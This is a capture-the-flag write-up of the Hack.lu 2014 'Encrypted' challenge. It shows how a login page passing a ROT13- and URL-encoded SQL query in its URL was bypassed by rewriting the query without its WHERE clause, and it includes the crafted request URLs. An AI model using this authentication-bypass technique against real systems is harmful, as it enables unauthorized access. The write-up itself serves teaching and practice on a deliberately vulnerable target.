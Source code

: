 ```yaml
---
layout: post
title: "Encrypted"
date: 2014-10-23
ctf: Hack.lu 2014
author: Abstract
---
```


[https://wildwildweb.fluxfingers.net:1411](https://wildwildweb.fluxfingers.net
:1411)

## Solution

This was one of the easiest challenges in the 2014 hack.lu CTF, and it
involved a simple web log in interface. Checking the page’s source code
revealed nothing interesting so I entered a test username and password and was
taken to a page telling me that the login had failed. Again, there was nothing
interesting in the page’s source code. However, the URL of the log in failed
page was:
  
    https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG+%60anzr%60+SEBZ+%60hfref%60+JURER+%60anzr%60+%3D+%27nnnn%27+NAQ+%60cnffjbeq%60+%3D+ZQ5%28%27oooo%27%29

i.e. as a massive flashing red light in an hacking challenge. Removing the URL
encoding (using [http://meyerweb.com/eric/tools/dencoder/](http://meyerweb.com
/eric/tools/dencoder/)) this became:

    https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG `anzr` SEBZ `hfref` JURER `anzr` = 'nnnn' NAQ `cnffjbeq` = ZQ5('oooo')

As an additional test I entered `abcdef` as the username and `12345` as the
password and got:

    https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG `anzr` SEBZ `hfref` JURER `anzr` = 'nopqrs' NAQ `cnffjbeq` = ZQ5('12345')

`abcdef` seems to have become `nopqrs` and `12345` became `12345`, so this is
ROT13 encoding. ROT13 decoding ([http://www.rot13.com](http://www.rot13.com))
the whole URL we get:

    https://wildwildweb.fluxfingers.net:1411/dologin.php?query=SELECT `name` FROM `users` WHERE `name` = 'abcdef' AND `password` = MD5('12345')

I.e., SQL is being past to the login page as a query. We change this to a
query that will always work:

    https://wildwildweb.fluxfingers.net:1411/dologin.php?query=SELECT `name` FROM `users`

ROT13 encode it:

    https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG `anzr` SEBZ `hfref`

URL encode it:

    https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG+%60anzr%60+SEBZ+%60hfref%60

And going to this URL we get the flag:

    Encrypted Login
    
    Hello admin! The flag is flag{nobody_needs_server_side_validation}.
